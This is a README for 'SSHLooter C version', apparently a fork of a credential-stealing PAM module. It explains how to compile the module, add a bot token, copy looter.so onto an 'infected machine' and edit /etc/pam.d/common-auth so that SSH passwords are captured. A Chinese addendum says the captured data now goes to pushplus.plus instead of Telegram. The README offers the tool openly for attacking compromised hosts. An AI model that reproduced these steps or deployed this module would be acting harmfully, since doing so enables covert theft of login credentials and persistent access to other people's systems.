

# SSHLooter C version
It's the C version of [sshLooter](https://github.com/mthbernardes/sshLooter), which was written in python and have a lot of dependencies to be installed on the infected machine.
Now with this C version, you compile it on your machine and send it to the infected machine without installing any dependencies.

# Dependencies
* gcc
* libcurl4-openssl-dev
* libpam0g-dev

# Configure
Edit the `looter.c` and add your telegram bot token and your user id.

# Compiling
```bash
make
```

# Usage
Copy the `looter.so` to the infected machine on `/lib/security`, then edit the `/etc/pam.d/common-auth` and add the following lines.
```
auth optional module.so
account optional module.so
```

# 修改
将作者原本发送到tg bot的改到了发送到pushplus.plus    
效果如下图:
